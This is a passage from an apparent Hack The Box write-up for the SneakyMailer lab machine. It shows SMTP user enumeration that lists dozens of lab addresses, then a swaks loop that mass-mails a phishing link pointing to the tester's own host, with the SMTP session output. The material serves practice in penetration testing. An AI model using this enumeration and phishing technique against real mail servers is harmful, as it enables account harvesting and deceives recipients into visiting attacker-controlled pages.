 ```text
[+] 10.10.10.197:25       - 10.10.10.197:25 Users found: airisatou@sneakymailer.htb, angelicaramos@sneakymailer.htb, ashtoncox@sneakymailer.htb, bradleygreer@sneakymailer.htb, brendenwagner@sneakymailer.htb, briellewilliamson@sneakymailer.htb, brunonash@sneakymailer.htb, caesarvance@sneakymailer.htb, carastevens@sneakymailer.htb, cedrickelly@sneakymailer.htb, chardemarshall@sneakymailer.htb, colleenhurst@sneakymailer.htb, dairios@sneakymailer.htb, donnasnider@sneakymailer.htb, doriswilder@sneakymailer.htb, finncamacho@sneakymailer.htb, fionagreen@sneakymailer.htb, garrettwinters@sneakymailer.htb, gavincortez@sneakymailer.htb, gavinjoyce@sneakymailer.htb, glorialittle@sneakymailer.htb, haleykennedy@sneakymailer.htb, hermionebutler@sneakymailer.htb, herrodchandler@sneakymailer.htb, hopefuentes@sneakymailer.htb, howardhatfield@sneakymailer.htb, jacksonbradshaw@sneakymailer.htb, jenagaines@sneakymailer.htb, jenettecaldwell@sneakymailer.htb, jenniferacosta@sneakymailer.htb, jenniferchang@sneakymailer.htb, jonasalexander@sneakymailer.htb, laelgreer@sneakymailer.htb, martenamccray@sneakymailer.htb, michaelsilva@sneakymailer.htb, michellehouse@sneakymailer.htb, olivialiang@sneakymailer.htb, paulbyrd@sneakymailer.htb, prescottbartlett@sneakymailer.htb, quinnflynn@sneakymailer.htb, rhonadavidson@sneakymailer.htb, sakurayamamoto@sneakymailer.htb, sergebaldwin@sneakymailer.htb, shaddecker@sneakymailer.htb, shouitou@sneakymailer.htb, sonyafrost@sneakymailer.htb, sukiburks@sneakymailer.htb, sulcud@sneakymailer.htb, tatyanafitzpatrick@sneakymailer.htb, thorwalton@sneakymailer.htb, tigernixon@sneakymailer.htb, timothymooney@sneakymailer.htb, unitybutler@sneakymailer.htb, vivianharrell@sneakymailer.htb, yuriberry@sneakymailer.htb, zenaidafrank@sneakymailer.htb, zoritaserrano@sneakymailer.htb
[*] 10.10.10.197:25       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

verified all the usernames

### Sending a phishing email with SMTP

Searched how to interact with SMTP through command line - [https://github.com/jetmore/swaks](https://github.com/jetmore/swaks)

```text
┌──(zweilos㉿kali)-[~/htb/sneakymailer]
└─$ for address in $(cat users); do swaks --helo sneakycorp.htb \
--to $address --from zweilos@sneakymailer.htb --header "Subject: Check this out" \
--body "Check this out! http://10.10.15.100:8090/" --server 10.10.10.197; done
  
=== Trying 10.10.10.197:25...
=== Connected to 10.10.10.197.
<-  220 debian ESMTP Postfix (Debian/GNU)
 -> EHLO sneakycorp.htb
<-  250-debian
<-  250-PIPELINING
<-  250-SIZE 10240000
<-  250-VRFY
<-  250-ETRN
<-  250-STARTTLS
<-  250-ENHANCEDSTATUSCODES
<-  250-8BITMIME
<-  250-DSN
<-  250-SMTPUTF8
<-  250 CHUNKING
 -> MAIL FROM:<zweilos@sneakymailer.htb>
<-  250 2.1.0 Ok
 -> RCPT TO:<airisatou@sneakymailer.htb>
<-  250 2.1.5 Ok
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Sun, 08 Nov 2020 21:03:55 -0500
 -> To: airisatou@sneakymailer.htb
 -> From: zweilos@sneakymailer.htb
 -> Subject: Check this out
 -> Message-Id: <20201108210355.081776@kali.kali>
 -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
 -> 
```